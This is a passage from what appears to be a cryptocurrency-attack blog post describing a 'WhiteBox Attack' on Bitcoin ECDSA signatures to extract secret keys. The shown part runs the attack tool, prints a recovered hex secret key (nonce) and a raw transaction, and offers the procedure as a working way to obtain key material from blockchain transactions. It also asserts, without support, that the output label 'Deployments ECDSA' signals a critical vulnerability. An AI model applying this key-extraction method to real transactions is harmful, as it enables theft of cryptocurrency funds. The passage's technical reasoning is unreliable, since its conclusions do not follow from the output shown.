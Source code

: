 <p>We launched this attack from&nbsp;<code>-tool whitebox_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-32-1024x491.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1614"></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd

RawTX = 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<p>We see an inscription&nbsp;<code>"Deployments ECDSA"</code>that means a critical vulnerability in the Bitcoin blockchain transaction.</p>



<p><code>SecretKey value in HEX format, this is our secret key "K" (NONCE):</code></p>



<p><code>K = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd</code></p>

